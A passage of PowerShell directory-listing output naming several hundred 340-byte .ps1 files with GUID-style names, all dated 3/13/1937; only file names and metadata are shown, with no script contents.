-ar---        3/13/1937  11:37 AM            340 5155398d-ac9b-4902-9d4c-df8fecee715d.ps1
-ar---        3/13/1937  11:37 AM            340 51745ec3-8165-4f06-85ee-3e50687eb4a9.ps1
-ar---        3/13/1937  11:37 AM            340 51c39870-9858-4546-839b-cca4ce190b70.ps1
-ar---        3/13/1937  11:37 AM            340 51da981c-c4b4-4b66-bf40-6caa23d7ba46.ps1
-ar---        3/13/1937  11:37 AM            340 521d4617-7f5b-48ba-987b-31c9d943946e.ps1
-ar---        3/13/1937  11:37 AM            340 5243a87e-e27d-4c0f-832a-7dfe04807da0.ps1
-ar---        3/13/1937  11:37 AM            340 529635b1-30be-43bd-a678-cdf805b150e8.ps1
-ar---        3/13/1937  11:37 AM            340 52a0a6e8-a5c3-43da-a022-e34282340c60.ps1
-ar---        3/13/1937  11:37 AM            340 52a86fda-6db2-44aa-af15-20c2d0f3ec30.ps1
-ar---        3/13/1937  11:37 AM            340 52bdbb01-0f8c-4d3c-bcb2-4a8e6a73a364.ps1
-ar---        3/13/1937  11:37 AM            340 531c39b3-4601-4027-b751-3472d27cd673.ps1
-ar---        3/13/1937  11:37 AM            340 5324a32b-88b5-4a45-932f-a04db231308b.ps1
-ar---        3/13/1937  11:37 AM            340 534592de-33fd-45c7-a91d-e717394ff867.ps1
-ar---        3/13/1937  11:37 AM            340 53555aff-3578-4b44-98be-2647c70b6b3b.ps1
-ar---        3/13/1937  11:37 AM            340 536110c6-b6f5-45f2-b29e-ff2c85e3a42c.ps1
-ar---        3/13/1937  11:37 AM            340 53763623-07ed-46a3-aef8-730bbb0142eb.ps1
-ar---        3/13/1937  11:37 AM            340 5392c521-7530-419c-83db-1a8f406de37d.ps1
-ar---        3/13/1937  11:37 AM            340 53afa906-7205-458e-843b-df8ae974524e.ps1
-ar---        3/13/1937  11:37 AM            340 54041349-b3dc-4a13-bf46-f1d6d9a82152.ps1
-ar---        3/13/1937  11:37 AM            340 541d7271-7b57-4779-92df-fdc843e9e2a3.ps1
-ar---        3/13/1937  11:37 AM            340 54367443-d889-4de0-91ee-652bcb3ad45a.ps1
-ar---        3/13/1937  11:37 AM            340 544baf36-9960-4bf1-bf41-cc7845ca2702.ps1
-ar---        3/13/1937  11:37 AM            340 54752d77-389b-4b40-8ace-96cd6ac96ac3.ps1
-ar---        3/13/1937  11:37 AM            340 55047175-65d4-4983-a721-b1aaa34b0403.ps1
-ar---        3/13/1937  11:37 AM            340 55076e7f-aff9-488e-9c0e-6e7340df13a6.ps1
-ar---        3/13/1937  11:37 AM            340 551e91f8-98a6-435b-8898-2c4135f12595.ps1
-ar---        3/13/1937  11:37 AM            340 5534ecd2-b03b-4a98-be53-743dca059a02.ps1
-ar---        3/13/1937  11:37 AM            340 553b18a7-4062-4312-b88a-8ca546e02e33.ps1
-ar---        3/13/1937  11:37 AM            340 5543f607-d966-4529-925c-0f5fb93b4b70.ps1
-ar---        3/13/1937  11:37 AM            340 55543868-88ef-4704-844b-242ccfd3353d.ps1
-ar---        3/13/1937  11:37 AM            340 55679867-6866-4138-bdb3-f6b6d976bd64.ps1
-ar---        3/13/1937  11:37 AM            340 558d0a65-d0b3-4a39-887a-d39361907386.ps1
-ar---        3/13/1937  11:37 AM            340 5596c3d3-1ab2-42a5-8476-4b585d61890c.ps1
-ar---        3/13/1937  11:37 AM            340 55ce30b6-c819-4d1a-9b3c-0351922a8c9c.ps1
-ar---        3/13/1937  11:37 AM            340 55e09406-dcbc-4db2-a57a-87e5fc98aabb.ps1
-ar---        3/13/1937  11:37 AM            340 55e22af8-7831-4e2d-b18a-d70a01402df0.ps1
-ar---        3/13/1937  11:37 AM            340 55f80177-baca-4106-b253-547176869abd.ps1
-ar---        3/13/1937  11:37 AM            340 56267079-7dac-42f9-88eb-9c2a01f00234.ps1
-ar---        3/13/1937  11:37 AM            340 566035f6-68f2-476b-86fc-b92e56d9329e.ps1
-ar---        3/13/1937  11:37 AM            340 5677d726-78c7-4225-8c67-f2ddbbaeefa0.ps1
-ar---        3/13/1937  11:37 AM            340 567df75c-c75d-4b4b-8f03-dc0623304772.ps1
-ar---        3/13/1937  11:37 AM            340 56b961fc-7f4c-4749-ab9a-1c69e8af79cc.ps1
-ar---        3/13/1937  11:37 AM            340 56c37d8e-5c93-4c66-aba9-cfbf2930370e.ps1
-ar---        3/13/1937  11:37 AM            340 56d1dd08-ccba-4140-8dbc-acba2815f6ba.ps1
-ar---        3/13/1937  11:37 AM            340 56f1c071-c1f3-4e90-87e6-4924e30ab408.ps1
-ar---        3/13/1937  11:37 AM            340 5702442e-4c9d-4793-87ab-ae8ef04e3ff3.ps1
-ar---        3/13/1937  11:37 AM            340 570d73e7-e066-4d3a-93e0-337364526a47.ps1
-ar---        3/13/1937  11:37 AM            340 5721b70e-1717-4604-b13c-0e2c576b74db.ps1
-ar---        3/13/1937  11:37 AM            340 575d97ae-ecb8-46fb-861f-2490c90e4a2d.ps1
-ar---        3/13/1937  11:37 AM            340 57a6646d-f8f2-4ab5-a573-ac6873bce586.ps1
-ar---        3/13/1937  11:37 AM            340 57a83d31-6383-4020-ae0f-666428888383.ps1
-ar---        3/13/1937  11:37 AM            340 57b47ea7-11be-4331-b79e-0a8364451a14.ps1
-ar---        3/13/1937  11:37 AM            340 57bb7773-d18d-44f0-bed1-c48fcf6d4ebc.ps1
-ar---        3/13/1937  11:37 AM            340 57c2e8bb-4b22-466c-9a8b-30b0489b1139.ps1
-ar---        3/13/1937  11:37 AM            340 57e6483e-046b-480f-bfb2-cb86dbf2dcfc.ps1
-ar---        3/13/1937  11:37 AM            340 58269efa-1a99-4c88-a123-ab32a16bbf0a.ps1
-ar---        3/13/1937  11:37 AM            340 585927b3-b0df-45ee-b14d-1a75b62695cc.ps1
-ar---        3/13/1937  11:37 AM            340 586ceb70-ba68-45e7-8393-f76278d2fe17.ps1
-ar---        3/13/1937  11:37 AM            340 58cda20c-f491-48d7-b830-ba74d68171b8.ps1
-ar---        3/13/1937  11:37 AM            340 58d7eec1-b3f0-43e8-9684-cf66fbd29e15.ps1
-ar---        3/13/1937  11:37 AM            340 58fa57b1-6951-4b5f-82e6-ffb37b4dfd63.ps1
-ar---        3/13/1937  11:37 AM            340 590a48f2-0df4-4e7a-92d9-9fe7f2c21646.ps1
-ar---        3/13/1937  11:37 AM            340 5926979f-ac72-4eb7-a701-804279e94029.ps1
-ar---        3/13/1937  11:37 AM            340 594587ad-9093-4f17-b4dc-a946905585fe.ps1
-ar---        3/13/1937  11:37 AM            340 596e9896-d6de-426a-8834-147ae76ae95d.ps1
-ar---        3/13/1937  11:37 AM            340 59c07179-b0f9-4dae-9aa7-3314d015da0a.ps1
-ar---        3/13/1937  11:37 AM            340 59cc595b-ba27-4097-8675-124c0eafe501.ps1
-ar---        3/13/1937  11:37 AM            340 59cec023-ef7d-4eed-8525-12810f45abc1.ps1
-ar---        3/13/1937  11:37 AM            340 59d78905-a80e-4bec-aaba-06fc07be5979.ps1
-ar---        3/13/1937  11:37 AM            340 59e33780-0a4b-464e-b808-8b443c452075.ps1
-ar---        3/13/1937  11:37 AM            340 5a008226-7936-47fa-81c1-e6867c83ac89.ps1
-ar---        3/13/1937  11:37 AM            340 5a0bd68b-4b44-4fa7-8ffb-598b12603dc6.ps1
-ar---        3/13/1937  11:37 AM            340 5a9765e7-88ad-4ac1-ba9e-a4bfc8b6f298.ps1
-ar---        3/13/1937  11:37 AM            340 5aa0fe7a-17ce-431e-bd5c-105798bea233.ps1
-ar---        3/13/1937  11:37 AM            340 5ad43e00-6df8-4814-adad-e360abba010a.ps1
-ar---        3/13/1937  11:37 AM            340 5af5c786-1aef-4f48-8b10-5b68687b8481.ps1
-ar---        3/13/1937  11:37 AM            340 5b3c456b-427a-4e4a-bcd8-1b0c89a09b09.ps1
-ar---        3/13/1937  11:37 AM            340 5ba03fe1-769e-40d7-b819-668bd069b883.ps1
-ar---        3/13/1937  11:37 AM            340 5ba2537b-cf22-4a16-aac9-3a05bf9b6c07.ps1
-ar---        3/13/1937  11:37 AM            340 5bfcc8b9-3bbe-4f90-90f0-481eeefa86e2.ps1
-ar---        3/13/1937  11:37 AM            340 5c2b3256-e76a-4740-b62b-60624d261f51.ps1
-ar---        3/13/1937  11:37 AM            340 5c3c377b-b0f4-43f1-891f-7544eebe9b78.ps1
-ar---        3/13/1937  11:37 AM            340 5c7b55f3-685a-4cfb-b708-159c2cce14f3.ps1
-ar---        3/13/1937  11:37 AM            340 5ca36acc-36e3-4132-9022-90169b9fd3e0.ps1
-ar---        3/13/1937  11:37 AM            340 5cc73052-efe6-47a9-a0ec-ee23d42e2380.ps1
-ar---        3/13/1937  11:37 AM            340 5cf2565f-052b-4aaf-917c-e670cedc6ea8.ps1
-ar---        3/13/1937  11:37 AM            340 5cf79ab0-de8f-475c-b863-ce0c2fea7b85.ps1
-ar---        3/13/1937  11:37 AM            340 5d4069b8-fe0e-44dc-b20c-163eead71919.ps1
-ar---        3/13/1937  11:37 AM            340 5d5139e1-19ea-4bc6-8f7e-0e0a9856cc1a.ps1
-ar---        3/13/1937  11:37 AM            340 5d815fb1-c527-488f-994c-9503c5e938c0.ps1
-ar---        3/13/1937  11:37 AM            340 5da9afe6-a6b6-47b2-a116-8b50f4a5ebe0.ps1
-ar---        3/13/1937  11:37 AM            340 5e3bdee7-0773-48d9-a098-8070172d31a1.ps1
-ar---        3/13/1937  11:37 AM            340 5e479e77-95a6-4378-8245-90987bc94180.ps1
-ar---        3/13/1937  11:37 AM            340 5e719325-74b0-4c51-8518-bf0a6bb4ecb7.ps1
-ar---        3/13/1937  11:37 AM            340 5eacd13d-0280-4c8d-ba35-a2d66713b4b1.ps1
-ar---        3/13/1937  11:37 AM            340 5eb4f46f-15db-4865-b876-b10a2dd8d94c.ps1
-ar---        3/13/1937  11:37 AM            340 5ed0cec2-cab7-4576-a263-5ea580c3fc3f.ps1
-ar---        3/13/1937  11:37 AM            340 5ef77578-a1cd-4e76-9d69-bff07bcb7f9e.ps1
-ar---        3/13/1937  11:37 AM            340 5ef9fa37-c7c1-4e31-a178-34f5545ad915.ps1
-ar---        3/13/1937  11:37 AM            340 5efab5df-5b9d-4e7c-bddf-c2a5a9f82494.ps1
-ar---        3/13/1937  11:37 AM            340 5f37071e-fd38-4f0e-8d1d-3b29fc85e26d.ps1
-ar---        3/13/1937  11:37 AM            340 5f674fe2-4c7a-41bd-b3ee-b5724350f36a.ps1
-ar---        3/13/1937  11:37 AM            340 5f749be4-1321-4165-b755-38056531b111.ps1
-ar---        3/13/1937  11:37 AM            340 5f8c2537-7c7d-4503-81be-76a6fa75da3d.ps1
-ar---        3/13/1937  11:37 AM            340 5fbccf25-678d-4fc6-9a12-dc2433f7d192.ps1
-ar---        3/13/1937  11:37 AM            340 5fbde9c3-7965-4ff6-8ad2-e4f7500feba9.ps1
-ar---        3/13/1937  11:37 AM            340 5fdf5129-aa9e-47fd-95c9-fbe87f5c1db3.ps1
-ar---        3/13/1937  11:37 AM            340 5fe5c926-2b2b-441d-8cfd-3a3380dc22eb.ps1
-ar---        3/13/1937  11:37 AM            340 603ef7d1-cc3b-480c-809e-4f0f0849b16a.ps1
-ar---        3/13/1937  11:37 AM            340 606892cf-4ff1-4f39-b377-672bbfea5614.ps1
-ar---        3/13/1937  11:37 AM            340 6093c53c-2632-4279-b750-286ff25251ec.ps1
-ar---        3/13/1937  11:37 AM            340 610b20bc-4527-4fb6-a7e6-e147a6e79388.ps1
-ar---        3/13/1937  11:37 AM            340 617b72c4-70c4-44dc-b93d-7fc1def2ee54.ps1
-ar---        3/13/1937  11:37 AM            340 617b7b70-6dd5-4aaf-95f2-398657d597c2.ps1
-ar---        3/13/1937  11:37 AM            340 617e99cb-141c-4f11-87fa-5123e958c6cd.ps1
-ar---        3/13/1937  11:37 AM            340 61b1ab81-8b5a-4b13-8756-e5d42f683be4.ps1
-ar---        3/13/1937  11:37 AM            340 61b71814-770d-4bbb-b7c8-b2438f4d3d23.ps1
-ar---        3/13/1937  11:37 AM            340 61ba1c54-9766-41dd-866f-a2df5d6e7054.ps1
-ar---        3/13/1937  11:37 AM            340 61bae74a-d9f4-477c-934c-b2cee6f69665.ps1
-ar---        3/13/1937  11:37 AM            340 61e26f1e-0892-497c-8e8b-4a2b1970e88c.ps1
-ar---        3/13/1937  11:37 AM            340 622bb775-3a3e-49dd-a235-107524d47787.ps1
-ar---        3/13/1937  11:37 AM            340 629a0716-2dab-4ce9-b9e3-b3500ebd26b7.ps1
-ar---        3/13/1937  11:37 AM            340 62bdcda1-cea2-4124-a63b-9f01ff52847c.ps1
-ar---        3/13/1937  11:37 AM            340 63231976-ad70-4c9a-9a00-85396dca4140.ps1
-ar---        3/13/1937  11:37 AM            340 636438f7-7214-49be-a443-8151d0126e17.ps1
-ar---        3/13/1937  11:37 AM            340 63846154-9c2b-496c-8681-7e7ae838a69d.ps1
-ar---        3/13/1937  11:37 AM            340 63a1a028-39a7-4371-b5ff-68d209bb9c45.ps1
-ar---        3/13/1937  11:37 AM            340 63c8b039-5839-40d2-a116-9dd0eaf23dee.ps1
-ar---        3/13/1937  11:37 AM            340 63d0eed1-6bd2-4dc9-84ef-37ca0a34ed6f.ps1
-ar---        3/13/1937  11:37 AM            340 63e3f5c0-dfe8-4446-b42b-4aacb09e7e83.ps1
-ar---        3/13/1937  11:37 AM            340 64118f54-b77f-40be-8465-d247b272b7ed.ps1
-ar---        3/13/1937  11:37 AM            340 6422e1b7-2f30-4158-80d6-b703d6ab58b7.ps1
-ar---        3/13/1937  11:37 AM            340 642ef2a6-8aab-40c4-b1b3-262c3eb8e591.ps1
-ar---        3/13/1937  11:37 AM            340 645bc373-c135-48f1-9af4-ca3095a2c324.ps1
-ar---        3/13/1937  11:37 AM            340 6471df59-4c9c-4a9a-9960-39ac8670c911.ps1
-ar---        3/13/1937  11:37 AM            340 647cd121-ebb8-4b8c-afca-363af1a54839.ps1
-ar---        3/13/1937  11:37 AM            340 648863e4-1707-406a-ae22-b9989b05fc2f.ps1
-ar---        3/13/1937  11:37 AM            340 648976b2-29a2-45e5-9391-e1ac9d0d838c.ps1
-ar---        3/13/1937  11:37 AM            340 6499d74d-e48a-4639-81dd-f071a57bfda0.ps1
-ar---        3/13/1937  11:37 AM            340 64c7b7ea-8c64-4866-81ec-70d1a069f91e.ps1
-ar---        3/13/1937  11:37 AM            340 64c90bc0-053d-401d-b224-d2d85ceec27b.ps1
-ar---        3/13/1937  11:37 AM            340 64e0878c-0f8b-432a-9d80-dd74193bc92c.ps1
-ar---        3/13/1937  11:37 AM            340 64e4f356-d6e4-4e9b-b0b0-e839c7a22d90.ps1
-ar---        3/13/1937  11:37 AM            340 6516e9f0-9e9b-4de2-93c0-b0765c9f9dfa.ps1
-ar---        3/13/1937  11:37 AM            340 65408317-2d63-42f1-8742-e7e941e23ba2.ps1
-ar---        3/13/1937  11:37 AM            340 6577d4da-7683-4423-afa5-8fedbd8ef3ff.ps1
-ar---        3/13/1937  11:37 AM            340 658d28bf-9287-4e28-b82f-9796156c884d.ps1
-ar---        3/13/1937  11:37 AM            340 65c4df3f-edd3-4175-b023-300fe483c527.ps1
-ar---        3/13/1937  11:37 AM            340 65d20054-220b-4491-ab52-2248f9c180e9.ps1
-ar---        3/13/1937  11:37 AM            340 65d2a620-ce1c-4473-9021-334e1e42e64c.ps1
-ar---        3/13/1937  11:37 AM            340 661fac42-6475-4b6b-bff3-090d2a148d79.ps1
-ar---        3/13/1937  11:37 AM            340 66527804-f09b-4420-9517-cd8668e860d3.ps1
-ar---        3/13/1937  11:37 AM            340 6660b9f3-c8bb-49cc-875e-7c076c7d1589.ps1
-ar---        3/13/1937  11:37 AM            340 66758b74-5fc9-4ce2-9ee0-f98d79536b48.ps1
-ar---        3/13/1937  11:37 AM            340 6731208a-b942-4e6e-bd74-2599d1fad7ee.ps1
-ar---        3/13/1937  11:37 AM            340 673fed33-0646-48db-aa9f-71267043ca7d.ps1
-ar---        3/13/1937  11:37 AM            340 67884820-d69f-4199-b239-126bca7452d9.ps1
-ar---        3/13/1937  11:37 AM            340 67962e22-4f58-4ca8-87c2-63c8368c61a8.ps1
-ar---        3/13/1937  11:37 AM            340 67d78596-b1af-494b-9cd0-ae54e46280cb.ps1
-ar---        3/13/1937  11:37 AM            340 67e1dacf-d45b-4a51-ba91-15efb178ea96.ps1
-ar---        3/13/1937  11:37 AM            340 684d0673-d604-4e58-b089-2b78a7ab43ff.ps1
-ar---        3/13/1937  11:37 AM            340 689b82e9-ef87-4eaf-ac7e-326a3b5b941c.ps1
-ar---        3/13/1937  11:37 AM            340 689d1f25-8ff9-45cf-af05-a4dddd68c0d0.ps1
-ar---        3/13/1937  11:37 AM            340 68bb405a-6a9c-4fed-a078-70aad136a050.ps1
-ar---        3/13/1937  11:37 AM            340 6977de2a-6b2a-4fbb-9af7-afd9f0f1dd3e.ps1
-ar---        3/13/1937  11:37 AM            340 69837e90-085c-41d1-886b-74eb3fa926cc.ps1
-ar---        3/13/1937  11:37 AM            340 698f1974-7b48-4526-991b-1e3a6f4ec6eb.ps1
-ar---        3/13/1937  11:37 AM            340 69c6c47b-9706-4861-830d-1c70019ddfea.ps1
-ar---        3/13/1937  11:37 AM            340 69cb91a0-78d8-4c7b-b96c-a9b1330dce34.ps1
-ar---        3/13/1937  11:37 AM            340 69e909ad-cceb-42e2-9338-e9038d74c53b.ps1
-ar---        3/13/1937  11:37 AM            340 69f0208e-7b36-4963-b03f-f0ad092de79e.ps1
-ar---        3/13/1937  11:37 AM            340 69f76e69-3d32-456c-8851-633502ce2798.ps1
-ar---        3/13/1937  11:37 AM            340 6a24cb31-e633-4390-9c10-6abf9933c85d.ps1
-ar---        3/13/1937  11:37 AM            340 6a3c21ea-1a76-44c5-9910-379a2d36b71b.ps1
-ar---        3/13/1937  11:37 AM            340 6a55e195-5688-4788-b70a-e7f2d7379a18.ps1
-ar---        3/13/1937  11:37 AM            340 6a98e0e2-c0c0-492b-a20e-9a7aa162c4c8.ps1
-ar---        3/13/1937  11:37 AM            340 6a9dafb5-9c09-4f35-9534-db79d024a77e.ps1
-ar---        3/13/1937  11:37 AM            340 6aa77961-c743-4eea-8f94-7602f7c58644.ps1
-ar---        3/13/1937  11:37 AM            340 6abbad0c-d43c-4250-a79a-157a183b5c81.ps1
-ar---        3/13/1937  11:37 AM            340 6ac956dd-eed2-4828-ae72-44bfa0297e06.ps1
-ar---        3/13/1937  11:37 AM            340 6adb2d19-5f39-472f-9b0c-4992262cc4ab.ps1
-ar---        3/13/1937  11:37 AM            340 6adb4d07-845a-486a-b539-b09266d73463.ps1
-ar---        3/13/1937  11:37 AM            340 6b009162-920f-4e5d-a16e-858f8ea5a2ea.ps1
-ar---        3/13/1937  11:37 AM            340 6b053fe4-0027-40a7-8b72-23d41b774436.ps1
-ar---        3/13/1937  11:37 AM            340 6b0c8d42-2732-457b-8f04-2847d7ecda1d.ps1
-ar---        3/13/1937  11:37 AM            340 6b214a9b-56ce-4cd4-8f1d-34cc3722cd44.ps1
-ar---        3/13/1937  11:37 AM            340 6b5031c3-e7fc-4ce7-92ef-f9477b06b988.ps1
-ar---        3/13/1937  11:37 AM            340 6b54687d-167c-43ee-b50a-ccd9ed189510.ps1
-ar---        3/13/1937  11:37 AM            340 6b8225ac-38fc-40e5-a0f2-70b377f9f20e.ps1
-ar---        3/13/1937  11:37 AM            340 6b962b03-aa60-4d36-9df6-8cfa5b82a1c2.ps1
-ar---        3/13/1937  11:37 AM            340 6ba77342-7b00-47e5-a0dc-1c5fc4a3a95c.ps1
-ar---        3/13/1937  11:37 AM            340 6be53578-9e67-4fb2-967a-ef0a0e6c70d4.ps1
-ar---        3/13/1937  11:37 AM            340 6c089cf4-9b83-433c-a0f9-8171687c87df.ps1
-ar---        3/13/1937  11:37 AM            340 6c0a6a09-eb6e-46f9-8ab6-d7c857530b2c.ps1
-ar---        3/13/1937  11:37 AM            340 6c29c336-d958-4895-b763-c7eb4e001008.ps1
-ar---        3/13/1937  11:37 AM            340 6c6e4e15-5bd9-4206-8ac8-4d020e10039d.ps1
-ar---        3/13/1937  11:37 AM            340 6c707f56-2b42-4402-9b11-c21144cb3e45.ps1
-ar---        3/13/1937  11:37 AM            340 6c9e0357-d6e1-43f8-989a-7f80d2e5977e.ps1
-ar---        3/13/1937  11:37 AM            340 6cb9d69f-162c-4099-acef-44d0e2beb0d5.ps1
-ar---        3/13/1937  11:37 AM            340 6cc20aec-58fd-4e3e-b4c3-ebb7876a5dcc.ps1
-ar---        3/13/1937  11:37 AM            340 6cdf2a52-bbf5-4b3f-99de-a4cbdba5f375.ps1
-ar---        3/13/1937  11:37 AM            340 6ce4ce15-a86d-414d-9700-4a388ee21ba2.ps1
-ar---        3/13/1937  11:37 AM            340 6cfe3e45-5e4c-41eb-8816-e739367f22f2.ps1
-ar---        3/13/1937  11:37 AM            340 6d680a5e-6692-4a76-a45c-24d7a6af354e.ps1
-ar---        3/13/1937  11:37 AM            340 6d6bddf0-1f49-42db-b698-3acb853dde8b.ps1
-ar---        3/13/1937  11:37 AM            340 6d87be0d-73d3-4aba-98dd-03b042222f7d.ps1
-ar---        3/13/1937  11:37 AM            340 6d985921-2982-44e5-89a4-501b11353c07.ps1
-ar---        3/13/1937  11:37 AM            340 6dd65ac1-27d2-40c8-a791-38484d46f3f2.ps1
-ar---        3/13/1937  11:37 AM            340 6df335b9-de35-4540-ac75-5ae1e5c5b61f.ps1
-ar---        3/13/1937  11:37 AM            340 6e2dabab-c452-4eb1-9033-4b24c383a959.ps1
-ar---        3/13/1937  11:37 AM            340 6e4c2f69-5125-4883-baec-e89e931d73c3.ps1
-ar---        3/13/1937  11:37 AM            340 6ea37e6c-e4df-4e2c-9b0c-217791906644.ps1
-ar---        3/13/1937  11:37 AM            340 6eb517bd-d515-4940-80e7-8a4f236bd2ad.ps1
-ar---        3/13/1937  11:37 AM            340 6ec2f9a0-53c6-4c96-b9d3-b5db529a72e2.ps1
-ar---        3/13/1937  11:37 AM            340 6ed08c32-e7e7-46e4-8dba-4b382b114201.ps1
-ar---        3/13/1937  11:37 AM            340 6ed1f050-d66e-427b-8f6a-22247d5dbd18.ps1
-ar---        3/13/1937  11:37 AM            340 6ed682b5-986b-4513-a465-c082e8f040ef.ps1
-ar---        3/13/1937  11:37 AM            340 6ef863c7-c04c-4fd6-836b-dca9e3d25d0c.ps1
-ar---        3/13/1937  11:37 AM            340 6f456c21-cc7f-45c7-8590-7ad01248ef09.ps1
-ar---        3/13/1937  11:37 AM            340 6f52c6c6-daaf-4e32-a101-7e23533a71e3.ps1
-ar---        3/13/1937  11:37 AM            340 6f74a174-dac0-4618-a980-6ef6bf40668c.ps1
-ar---        3/13/1937  11:37 AM            340 6f81a524-bc63-4832-83e3-e1b0fc68b38e.ps1
-ar---        3/13/1937  11:37 AM            340 6fd0e803-478b-4dc7-b5da-10a0e74878b9.ps1
-ar---        3/13/1937  11:37 AM            340 6fd6b68a-5e6d-4df8-8be1-3d4825aa794c.ps1
-ar---        3/13/1937  11:37 AM            340 6ff6f112-8d22-47cf-890b-ebf6676ff10f.ps1
-ar---        3/13/1937  11:37 AM            340 700ffcb5-a463-4926-8d2c-36bb67057304.ps1
-ar---        3/13/1937  11:37 AM            340 7037e511-638a-4b1a-9a2f-c9c6b5f62cef.ps1
-ar---        3/13/1937  11:37 AM            340 7048b81b-9603-4bf7-9ecc-cf00dcc3babb.ps1
-ar---        3/13/1937  11:37 AM            340 705ee058-4698-4d14-9319-ef81464b15d4.ps1
-ar---        3/13/1937  11:37 AM            340 7083b4bb-dfce-4e2d-ae7c-1b192fd83021.ps1
-ar---        3/13/1937  11:37 AM            340 70879f58-da6b-4bf2-b42a-35c11ceb13ed.ps1
-ar---        3/13/1937  11:37 AM            340 7087f100-5088-4061-8f4d-8f6e5b52a5e2.ps1
-ar---        3/13/1937  11:37 AM            340 70bf8a36-b5ce-4f8b-8a08-fa9346d9cba4.ps1
-ar---        3/13/1937  11:37 AM            340 70f0b05e-8e88-4b1a-a8ae-2e1588455ff0.ps1
-ar---        3/13/1937  11:37 AM            340 710463ca-b5ac-4af1-8212-e9e36154c9b8.ps1
-ar---        3/13/1937  11:37 AM            340 7122894b-b07d-421d-b342-76cd6d38e042.ps1
-ar---        3/13/1937  11:37 AM            340 714f525c-055f-4af1-968a-b93c22c1437f.ps1
-ar---        3/13/1937  11:37 AM            340 718eb8d4-2be1-4cfb-933b-fd6fd6cd45c3.ps1
-ar---        3/13/1937  11:37 AM            340 71936d67-c59f-4637-9536-3f96e6a03e06.ps1
-ar---        3/13/1937  11:37 AM            340 71c4c14b-eb7b-4a91-b4cf-401d73e77dda.ps1
-ar---        3/13/1937  11:37 AM            340 71d4af85-e0b8-4fbd-a07d-6c05471c6365.ps1
-ar---        3/13/1937  11:37 AM            340 72199a60-cf94-4c5b-9533-d13befef21b5.ps1
-ar---        3/13/1937  11:37 AM            340 7223417b-7625-4e9a-b81a-81bf7666c8ba.ps1
-ar---        3/13/1937  11:37 AM            340 72548b91-e0d7-4c1b-905d-d259780e8bd2.ps1
-ar---        3/13/1937  11:37 AM            340 726eb75f-f630-41e2-8de5-145cf01fd6b5.ps1
-ar---        3/13/1937  11:37 AM            340 726f6d5e-bea8-4a56-978a-4a01a6f94758.ps1
-ar---        3/13/1937  11:37 AM            340 7287d879-5d6e-402e-992c-5bdc3af4d63b.ps1
-ar---        3/13/1937  11:37 AM            340 72ec242a-333d-4393-bba7-616c52bb0556.ps1
-ar---        3/13/1937  11:37 AM            340 72fda9f5-3694-4ac8-a7b4-cbd465185418.ps1
-ar---        3/13/1937  11:37 AM            340 731cdac5-9dbf-49d9-bfc4-d486fd8797a6.ps1
-ar---        3/13/1937  11:37 AM            340 7336a59a-7c5f-4d44-8127-7250e6c9b919.ps1
-ar---        3/13/1937  11:37 AM            340 734effd4-c0ac-4bbc-81d0-dfecf85d8c2a.ps1
-ar---        3/13/1937  11:37 AM            340 7355dce7-e96b-4113-8e9f-a613cd0faca6.ps1
-ar---        3/13/1937  11:37 AM            340 735b426c-4e8d-48f8-9dff-142e33920ac1.ps1
-ar---        3/13/1937  11:37 AM            340 7362d56f-57dd-4e36-ba01-826c7f8b1fb9.ps1
-ar---        3/13/1937  11:37 AM            340 737b6351-66cb-4771-ade9-1f2cc99c6b28.ps1
-ar---        3/13/1937  11:37 AM            340 73846d4f-3f74-4a58-b105-d15b868d1b66.ps1
-ar---        3/13/1937  11:37 AM            340 73c2306c-1cd8-4caa-b03a-be232652a32c.ps1
-ar---        3/13/1937  11:37 AM            340 73c71684-73da-4af2-942e-ac0d1e5366cd.ps1
-ar---        3/13/1937  11:37 AM            340 73e2b15f-4db2-468c-9bbf-9638c1334646.ps1
-ar---        3/13/1937  11:37 AM            340 73ff9d87-6c80-4baa-9945-ca882d51f64c.ps1
-ar---        3/13/1937  11:37 AM            340 7409db1b-d1df-4a28-8436-1afc2bae7d58.ps1
-ar---        3/13/1937  11:37 AM            340 745e32d2-3049-470b-a821-2b2114fc6886.ps1
-ar---        3/13/1937  11:37 AM            340 747ca17f-127e-4a87-89cd-69dd1c4aceae.ps1
-ar---        3/13/1937  11:37 AM            340 74819e8d-6f50-4eaf-9616-fdb6c3ca950c.ps1
-ar---        3/13/1937  11:37 AM            340 74a200a7-4fa9-4bb3-bf2e-670bae917a9c.ps1
-ar---        3/13/1937  11:37 AM            340 74a32763-6a18-4dfa-ad11-954423c444e9.ps1
-ar---        3/13/1937  11:37 AM            340 74d314f4-4046-4e8f-a572-5725ad8a4eb0.ps1
-ar---        3/13/1937  11:37 AM            340 74eb2a39-9c05-44f9-8331-e734bf278d84.ps1
-ar---        3/13/1937  11:37 AM            340 753f2ab1-4f89-4035-bcf0-fa4dcabee2f1.ps1
-ar---        3/13/1937  11:37 AM            340 7550c5ad-9163-4cf7-8dbe-8dd3078b4415.ps1
-ar---        3/13/1937  11:37 AM            340 755b5ff0-d4f7-4792-aea2-99232c878524.ps1
-ar---        3/13/1937  11:37 AM            340 756d2c06-8b32-4668-a08f-244bdb818183.ps1
-ar---        3/13/1937  11:37 AM            340 7570fef8-9566-4857-b97f-ccfc1810711f.ps1
-ar---        3/13/1937  11:37 AM            340 7591800e-f34c-41ae-962f-f2e074bf3a3e.ps1
-ar---        3/13/1937  11:37 AM            340 75972bea-9c9e-40c9-a348-cdf7c732107a.ps1
-ar---        3/13/1937  11:37 AM            340 75a9befd-7302-44db-8c10-428ab66d73b2.ps1
-ar---        3/13/1937  11:37 AM            340 75ba9c90-45ed-4899-8f97-fb6fda8010d2.ps1
-ar---        3/13/1937  11:37 AM            340 76188640-cd78-4ee3-b8ba-c7bfcbbf24a7.ps1
-ar---        3/13/1937  11:37 AM            340 76524fa4-0995-4c6e-93c1-b7ac2f53b432.ps1
-ar---        3/13/1937  11:37 AM            340 768c11d4-5771-4797-b03c-022149f90471.ps1
-ar---        3/13/1937  11:37 AM            340 76a05222-f080-4e6f-8ba2-e97beef5da49.ps1
-ar---        3/13/1937  11:37 AM            340 76cab225-8554-4e80-aaf7-bc8f9e3130c5.ps1
-ar---        3/13/1937  11:37 AM            340 76dac49b-d984-436d-8589-1291e8e9d1eb.ps1
-ar---        3/13/1937  11:37 AM            340 77117e59-b4dc-4b38-b0c1-114975bb99ce.ps1
-ar---        3/13/1937  11:37 AM            340 7744ef01-4f8c-4463-879b-29a8e36cd71d.ps1
-ar---        3/13/1937  11:37 AM            340 7768aeb3-0ed1-4289-b182-885e3980acb8.ps1
-ar---        3/13/1937  11:37 AM            340 776cf706-f500-4517-a8b5-e73267898682.ps1
-ar---        3/13/1937  11:37 AM            340 777484c3-fb06-4866-b486-837cc5c23238.ps1
